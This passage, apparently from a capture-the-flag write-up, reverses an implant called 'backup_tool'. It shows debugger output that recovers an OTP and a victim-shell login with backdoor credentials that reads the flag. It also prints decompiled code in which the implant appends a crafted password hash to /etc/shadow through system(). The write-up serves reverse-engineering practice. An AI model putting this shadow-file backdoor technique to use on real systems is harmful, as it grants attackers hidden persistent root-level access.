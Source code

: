 ```
pwndbg> print $rax
$1 = 538406
pwndbg>
```

Then depending on the timing we can use it in-process or execute the `binary` file on the victim machine, passing the `credit` and `otp` code we obtained.
```
www-data@0474e1401baa:~$ /usr/bin/backup_tool  
Enter your credentials to continue:
Username: backdoor
Password: <!8,>;<;He
OTP: 538406

Select Option:

1. Plant Backdoor
2. Read Secret
3. Restart exfiltration
4. Exit

Enter choice: 2
Secret: AWS{r3v3r51ng_1mpl4nt5_1s_fun}
```

# Shortcut
Going back to the `decompiled` code, we can see case 1, which calls the `a_b()` function, which obviously modifies shadow, adding the hash of user tom
```
__int64 a_b()
{
  _DWORD entry[10]; // [rsp+0h] [rbp-160h] BYREF
  char command[8]; // [rsp+70h] [rbp-F0h] BYREF
  char dest[8]; // [rsp+E0h] [rbp-80h] BYREF
  char *src; // [rsp+148h] [rbp-18h]
  char *key; // [rsp+150h] [rbp-10h]
  char *salt; // [rsp+158h] [rbp-8h]

  puts("Initiating backdoor...");
  salt = "$6$52Cz9R5yJTSpDulz";
  key = g_u_p();
  src = crypt(key, "$6$52Cz9R5yJTSpDulz");
  *dest = 980250484LL;

  strcat(dest, src);
  *command = 0x27206F686365LL;

  strcat(command, dest);
  strcpy(entry, ":19027:0:99999:7:::' >> /etc/shadow");  

  entry[9] = 0;
  strcat(command, entry);

  if ( s_s() )
  {
    puts("Already added to shadow");
  }
  else
  {
    system(command);
    puts("You may authenticate now");
  }
  return 0LL;
```
